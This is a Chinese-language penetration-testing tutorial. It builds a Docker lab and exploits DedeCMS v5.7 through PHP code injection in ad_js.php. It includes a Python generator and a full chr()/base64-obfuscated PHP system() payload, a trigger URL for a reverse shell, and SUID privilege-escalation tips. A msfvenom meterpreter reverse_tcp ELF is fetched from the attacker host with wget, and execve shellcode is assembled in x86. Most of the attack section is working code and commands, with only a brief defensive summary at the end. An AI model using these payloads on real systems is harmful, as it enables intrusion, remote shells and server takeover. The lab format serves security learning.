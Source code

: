 - 如何手工白盒挖掘漏洞
- 如何利用漏洞，如何绕过
- 如何从反弹shell对会话提权，后渗透
- 正向反弹与反向反弹shell的区别
- 如何隐藏痕迹，如何维持shell稳定，如何对抗
- 原理是什么，计算机做了什么


## 搭建目标靶机
靶机整套docker环境，可提供复现玩耍
Docker-compose 搭建运行被攻击环境 4个容器分工不同

```
➜  share git:(master) ✗ pwd
/Users/hua/share
➜  share git:(master) ✗ tree -L 3
.
├── attacker
│   ├── base64_shell.py
│   ├── hack.py
│   ├── shell.py
│   └── shellcode.c
└── target
    ├── conf.d
    │   └── nginx.conf
    ├── docker-compose.yml
    ├── html
    │   ├── 1.html
    │   ├── 1.php
    │   ├── 1.txt
    │   ├── shellcode.c
    │   └── uploads
    ├── nginx.conf
    └── php-mysqli
        └── Dockerfile
```

```
version: '3'
services:
  msfs:
    # 攻击平台-渗透工具部署，保持同一网段方便通信
    image: linuxkonsult/kali-metasploit
    tty: true  # 启动失败是因为缺失了控制终端的配置，这里有两种方式修复； 如果不加，msf将会启动失败
    ports:
      - "1234:1234"
    networks:
      app_net:
        ipv4_address: 10.10.10.10  
    container_name: "compose-msf"
  nginx:
    image: nginx:latest
    ports:
      - "80:80"
    depends_on:
      - "php"
    volumes:
      - "$PWD/conf.d:/etc/nginx/conf.d"
      - "$PWD/html:/usr/share/nginx/html"
    networks:
      - app_net
    container_name: "compose-nginx"
  php:
    build: ./php-mysqli
    image: php:7.2-fpm-mysqli
    ports:
      - "9000:9000"
    volumes:
      - "$PWD/html:/var/www/html"
    networks:
      - app_net
    # depends_on:
    #   - python
    container_name: "compose-php"
  # python:
  #   image: python:3.7-alpine
  mysql:
    image: mysql:5.7
    ports:
      - "3306:3306"
    environment:
      - MYSQL_ROOT_PASSWORD=root
    networks:
      app_net:
        ipv4_address: 10.10.10.11
    container_name: "compose-mysql"
networks:
  app_net:
    driver: bridge
    ipam:
      config:
        - subnet: 10.10.10.0/24
```

- 检查mysql ip，实际就是上述在10.10.0.0/24 的 (255 - 2) 的主机号中静态分配了IPV4 10.10.10.1 ，安装靶机网站（最新版dedecms v5.7源码）
bridge：http://blog.daocloud.io/docker-bridge/

## 代码审计&Fuzz
```
➜  uploads find ./ -type f -name "*.php" | xargs grep -n 'include \$'
/dede/plus/ad_js.php:44

➜  uploads find ./ -type f -name "*.php" | xargs grep -n '#@__myad'
找insert 语句
```

## Payload & Bypass
构造 --> 闭合html标签,否则造成 html 注释消毒，之后构造<?php ?>实现 php 语法注入。 

```
import sys
def gen_shell(string):
    tmp = ""
    for i in string:
        tmp += "chr({}).".format(ord(i))  chr.chr
    return tmp[:-1]

if __name__ == "__main__":
    a = gen_shell(sys.argv[1])
    print(a)
    shell = "--><?php $cmd=system({}); echo $cmd; ?>".format(a)
    print(shell)
```

Shell 中有单引号，需要用 \" 转义掉
然后组成 又引入 单引号， 使用chr绕过，最终载荷如下：
```
➜  attacker git:(master) ✗ python3.6 base64_shell.py
--><?php system(base64_decode(chr(99).chr(72).chr(108).chr(48).chr(97).chr(71).chr(57).chr(117).chr(73).chr(67).chr(49).chr(106).chr(73).chr(67).chr(74).chr(108).chr(101).chr(71).chr(86).chr(106).chr(75).chr(70).chr(119).chr(105).chr(89).chr(86).chr(99).chr(120).chr(100).chr(50).chr(73).chr(122).chr(83).chr(106).chr(66).chr(74).chr(83).chr(69).chr(53).chr(50).chr(87).chr(84).chr(74).chr(48).chr(98).chr(71).chr(82).chr(68).chr(81).chr(87).chr(100).chr(74).chr(81).chr(48).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(68).chr(100).chr(50).chr(100).chr(74).chr(81).chr(48).chr(70).chr(110).chr(83).chr(85).chr(104).chr(79).chr(77).chr(86).chr(108).chr(117).chr(81).chr(110).chr(108).chr(105).chr(77).chr(107).chr(53).chr(115).chr(89).chr(122).chr(78).chr(78).chr(90).chr(48).chr(108).chr(68).chr(81).chr(87).chr(100).chr(74).chr(81).chr(48).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(99).chr(48).chr(108).chr(68).chr(81).chr(87).chr(100).chr(74).chr(81).chr(48).chr(74).chr(50).chr(89).chr(51).chr(112).chr(122).chr(90).chr(48).chr(108).chr(68).chr(81).chr(87).chr(100).chr(74).chr(81).chr(48).chr(70).chr(110).chr(83).chr(85).chr(78).chr(67).chr(98).chr(50).chr(73).chr(122).chr(84).chr(106).chr(66).chr(81).chr(85).chr(48).chr(108).chr(52).chr(84).chr(85).chr(77).chr(48).chr(101).chr(69).chr(49).chr(68).chr(78).chr(72).chr(104).chr(78).chr(81).chr(122).chr(82).chr(52).chr(84).chr(85).chr(78).chr(74).chr(78).chr(48).chr(108).chr(68).chr(81).chr(87).chr(100).chr(74).chr(81).chr(48).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(50).chr(78).chr(72).chr(79).chr(88).chr(108).chr(107).chr(82).chr(68).chr(65).chr(119).chr(84).chr(107).chr(82).chr(82).chr(77).chr(69).chr(57).chr(53).chr(81).chr(87).chr(100).chr(74).chr(81).chr(48).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(73).chr(84).chr(84).chr(108).chr(106).chr(77).chr(106).chr(108).chr(113).chr(89).chr(84).chr(74).chr(87).chr(77).chr(69).chr(120).chr(117).chr(84).chr(110).chr(90).chr(90).chr(77).chr(110).chr(82).chr(115).chr(90).chr(69).chr(78).chr(111).chr(101).chr(109).chr(73).chr(121).chr(84).chr(110).chr(74).chr(97).chr(87).chr(70).chr(70).chr(49).chr(85).chr(86).chr(86).chr(97).chr(90).chr(108).chr(78).chr(86).chr(78).chr(85).chr(90).chr(87).chr(81).chr(48).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(68).chr(81).chr(87).chr(100).chr(74).chr(81).chr(51).chr(100).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(73).chr(84).chr(110).chr(90).chr(90).chr(77).chr(110).chr(82).chr(115).chr(90).chr(69).chr(77).chr(49).chr(86).chr(70).chr(81).chr(119).chr(84).chr(107).chr(120).chr(89).chr(77).chr(85).chr(53).chr(86).chr(86).chr(87).chr(116).chr(87).chr(81).chr(108).chr(82).chr(84).chr(97).chr(122).chr(100).chr(74).chr(81).chr(48).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(68).chr(81).chr(87).chr(100).chr(106).chr(101).chr(84).chr(86).chr(113).chr(89).chr(106).chr(73).chr(49).chr(100).chr(86).chr(112).chr(88).chr(84).chr(106).chr(66).chr(76).chr(81).chr(50).chr(104).chr(118).chr(89).chr(106).chr(78).chr(79).chr(77).chr(69).chr(108).chr(68).chr(81).chr(87).chr(100).chr(74).chr(81).chr(48).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(120).chr(68).chr(81).chr(87).chr(100).chr(74).chr(81).chr(48).chr(70).chr(110).chr(89).chr(48).chr(99).chr(53).chr(101).chr(87).chr(82).chr(68).chr(97).chr(51).chr(66).chr(80).chr(101).chr(85).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(68).chr(81).chr(87).chr(100).chr(74).chr(82).chr(122).chr(108).chr(54).chr(84).chr(71).chr(49).chr(83).chr(77).chr(87).chr(78).chr(69).chr(83).chr(87).chr(57).chr(106).chr(101).chr(84).chr(86).chr(116).chr(89).chr(86).chr(100).chr(52).chr(98).chr(71).chr(74).chr(116).chr(79).chr(71).chr(57).chr(76).chr(85).chr(48).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(68).chr(81).chr(87).chr(100).chr(74).chr(81).chr(51).chr(100).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(69).chr(81).chr(88).chr(66).chr(80).chr(101).chr(85).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(68).chr(81).chr(87).chr(100).chr(74).chr(82).chr(122).chr(108).chr(54).chr(84).chr(71).chr(49).chr(83).chr(77).chr(87).chr(78).chr(69).chr(83).chr(87).chr(57).chr(106).chr(101).chr(84).chr(86).chr(116).chr(89).chr(86).chr(100).chr(52).chr(98).chr(71).chr(74).chr(116).chr(79).chr(71).chr(57).chr(76).chr(85).chr(48).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(68).chr(81).chr(87).chr(100).chr(74).chr(81).chr(51).chr(100).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(69).chr(82).chr(88).chr(66).chr(80).chr(101).chr(85).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(68).chr(81).chr(87).chr(100).chr(74).chr(82).chr(122).chr(108).chr(54).chr(84).chr(71).chr(49).chr(83).chr(77).chr(87).chr(78).chr(69).chr(83).chr(87).chr(57).chr(106).chr(101).chr(84).chr(86).chr(116).chr(89).chr(86).chr(100).chr(52).chr(98).chr(71).chr(74).chr(116).chr(79).chr(71).chr(57).chr(76).chr(85).chr(48).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(68).chr(81).chr(87).chr(100).chr(74).chr(81).chr(51).chr(100).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(69).chr(83).chr(88).chr(66).chr(80).chr(101).chr(85).chr(70).chr(110).chr(83).chr(85).chr(78).chr(66).chr(90).chr(48).chr(108).chr(68).chr(81).chr(87).chr(100).chr(74).chr(83).chr(69).chr(69).chr(53).chr(89).chr(122).chr(78).chr(87).chr(97).chr(87).chr(78).chr(73).chr(83).chr(110).chr(90).chr(90).chr(77).chr(108).chr(90).chr(54).chr(89).chr(51).chr(107).chr(49).chr(97).chr(108).chr(108).chr(88).chr(101).chr(72).chr(78).chr(76).chr(81).chr(48).chr(108).chr(50).chr(87).chr(87).chr(49).chr(115).chr(100).chr(85).chr(119).chr(121).chr(83).chr(109).chr(104).chr(106).chr(77).chr(109).chr(100).chr(112).chr(83).chr(49).chr(69).chr(57).chr(80).chr(86).chr(119).chr(105).chr(76).chr(109).chr(82).chr(108).chr(89).chr(50).chr(57).chr(107).chr(90).chr(83).chr(104).chr(99).chr(73).chr(109).chr(74).chr(104).chr(99).chr(50).chr(85).chr(50).chr(78).chr(70).chr(119).chr(105).chr(75).chr(83).chr(107).chr(105))); ?>
```

访问
http://127.0.0.1/uploads/plus/ad_js.php?nocache=1&aid=12
触发shell反弹

后⾯的提权， 扫内⽹， 横向， 钓⻥等后渗透⼿段可以在 此基础上展开。

## 提权
上述获得的交互式shell可知是一个低权限的会话

a. 利用Linux内核漏洞提权

b. 利用低权限用户目录下可被Root权限用户调用的脚本提权
   find / -perm -u=s -type f 2>/dev/null
   ex: nmap有SUID位，所以通过"!sh"我们会获取到一个root权限的shell

c. 利用环境变量劫持高权限程序提权

d. elf
msf exploit(handler) > msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=5555 -f elf > /tmp/shell.elf

// 另起shell 作为meterpreter会话
// 在tmp目录下启动下载服务
cd /tmp
python -m SimpleHTTPServer 9999

// 在shell1 执行下载 shell.elf 下载到 fpm 容器的 tmp ⽬录下
wget -P /tmp 10.10.10.10:9999/shell.elf
cd /tmp
ls 

>> use exploit/multi/handler 
>> set PAYLOAD linux/x86/meterpreter/reverse_tcp 
>> set LHOST 10.10.10.10
>> set LPORT 5555 
>> exploit

## 原理 & ShellCode
芯片字、位的拓展与关系， cpu与数据通路
计算机指令，字节编码，流水线
寄存器，pc寄存器, eip栈指针
汇编&机器码
大端小端存储与二进制
段页存储校验 segment fault
系统调用
寻址方式

### CISC x86汇编 示例
⾸先来看⼀下shellcode， 他是⼗六进制机器码， 是由汇编指令 “翻译”⽽成的 表示的执⾏ execve("/bin//sh/",["/bin//sh"],NULL) 
我们先来看⼀段简单的本地shellcode
⽤⼀个异或操作来把EAX寄存器清空 （为了避免mov赋值带来的00） 
>> xor %eax,%eax 
>> push %eax (接着将4字节的NULL压栈) 将/bin/sh压栈，保持对⻬，第⼀个参数
>> push $0x68732f2f 
>> push $0x6e69622f 将/bin/sh存放到EBX寄存器，第2个参数 
>> mov %esp,%ebx 压4字节的NULL，第3个参数, 环境变量为NULL 
>> push %eax 将EBX压栈 
>> push %ebx 把EBX地址存⼊ECX寄存器 
>> mov %esp,%ecx 将execve系统调⽤号11(0xb)压⼊AL寄存器，消00 
>> movb $0xb,%al 调⽤int指令进⼊中断 >> int $0x80 保存为 shell.s 

>> as -o shell.o shell.s 
>> ld -o shell sheel.o 
>> objdump -d ./shell 可以提取出⼗六进制码， 如图中的 *shellcode


### RISC ARM 
总结
语言的机制
开发设计的缺陷
运维的失误
如何减少漏洞？
企业级 HIDS 建设， WAF， 漏洞运营处置&闭环， 蓝军，渗透测试， 资产、权限收敛，网络隔离，访问控制，数据加密...